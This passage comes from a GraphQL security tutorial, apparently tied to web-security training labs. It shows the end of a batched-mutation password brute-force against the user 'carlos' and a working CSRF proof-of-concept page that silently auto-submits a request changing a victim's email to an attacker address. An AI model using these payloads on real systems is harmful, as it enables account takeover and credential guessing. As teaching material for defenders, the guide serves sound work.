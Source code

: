         success
    }
    login5:login(input:{username:"carlos",password:"123456789"}) {
        token
        success
    }
}
```
## GraphQL CSRF 
CSRF vulnerabilities can arise where a GraphQL endpoint does not validate the content type of the requests sent to it and no CSRF tokens are implemented.  
POST requests that use a content type of application/json are secure against forgery as long as the content type is validated. In this case, an attacker wouldn't be able to make the victim's browser send this request even if the victim were to visit a malicious site.  
However, alternative methods such as GET, or any request that has a content type of x-www-form-urlencoded, can be sent by a browser and so may leave users vulnerable to attack if the endpoint accepts these requests. Where this is the case, attackers may be able to craft exploits to send malicious requests to the API.  
Example of CSRF attack that must be delivered to victim:
```
<!DOCTYPE html>
<html>
<head>
  <title>GraphQL CSRF PoC</title>
</head>
<body>
  <form class='login-form' name='email-change-form' action='https://0ae5002d0473912d81e866ed00520053.web-security-academy.net/graphql/v1' method="post">
    <input type='text' name='query' value='mutation{changeEmail(input:{email:"pwned@attacker.com"}){email}}' style="display: none;">
    <button class='button' type='submit' style="display: none;"></button>
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>

```